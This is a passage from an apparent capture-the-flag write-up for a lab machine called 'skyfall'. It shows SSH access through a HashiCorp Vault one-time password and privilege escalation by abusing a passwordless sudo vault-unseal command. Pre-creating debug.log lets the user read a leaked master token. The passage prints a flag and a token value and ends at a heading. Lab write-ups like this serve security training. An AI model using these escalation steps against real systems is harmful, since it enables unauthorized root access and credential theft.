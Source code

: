 ```bash
./vault ssh -role dev_otp_key_role -mode OTP -strict-host-key-checking=no askyy@10.10.11.254
# "-mode OTP" -> ONE-TIME PASSWORD & "-strict-host-key-checking=no" -> DISABLES STRICT HOST KEY CHECKING FOR SSH CONNECTIONS.
```

![image](https://github.com/0xliberta/0xliberta.github.io/assets/154480148/3e99fc30-a5d9-43a7-bd49-23b4a069fc54)

`user.txt` → d7b3d601a82550ce3563ab4d7383260a

Using the OTP will be displayed on the screen, SSH into `askyy` and get USER FLAG!

## Privilege Escalation to Root

### Leveraging Privileged Commands for Root

Through running `sudo -l` to list `sudo` privileges for `askyy` user on `skyfall` .. These commands can run NOPASSWD!

```bash
/root/vault/vault-unseal ^-c /etc/vault-unseal.yaml -[vhd]+$ # "-c" CONFIGURATION PATH
#  THE ^ AND $ SYMBOLS DENOTE THE BEGINNING AND END OF THE COMMAND & "-[vhd]" -> "-v" VERBOSE & "-d" DEBUG MODE & "-h" HELP
sudo /root/vault/vault-unseal ^-c /etc/vault-unseal.yaml -vd # WE WILL USE IT THIS WAY
```

![sudo -l askyy user .png]![image](https://github.com/0xliberta/0xliberta.github.io/assets/154480148/4440ea0d-d578-48ff-8f24-0c4dd350406d)


This command configures Vault and generates a `debug.log` file, which, is root-owned and inaccessible to users. To overcome this hurdle, simply execute the command `touch debug.log` to create the file and then proceed with your command. This will ensure that the file is owned by the user `askyy` and can be catted. 

![image](https://github.com/0xliberta/0xliberta.github.io/assets/154480148/859bc86b-1334-4385-bcd9-0dd6d57de02c)



![image](https://github.com/0xliberta/0xliberta.github.io/assets/154480148/3a4cad7a-5b22-4c84-966c-13d4c32cdbfb)



### Gaining Persistence with Master Tokens

Using the MASTER_TOKEN extracted from `debug.log` we'll SSH into the Root account. Then, we'll update the old VAULT_TOKEN with the new one.

```bash
export VAULT_TOKEN="hvs.I0ewVsmaKU1SwVZAKR3T0mmG" # MASTER_TOKEN
```

![image](https://github.com/0xliberta/0xliberta.github.io/assets/154480148/4d24175d-1675-4e4e-b77f-6be9a6a6ff71)


### Escalating to Root via SSH Role → ROOT FLAG!
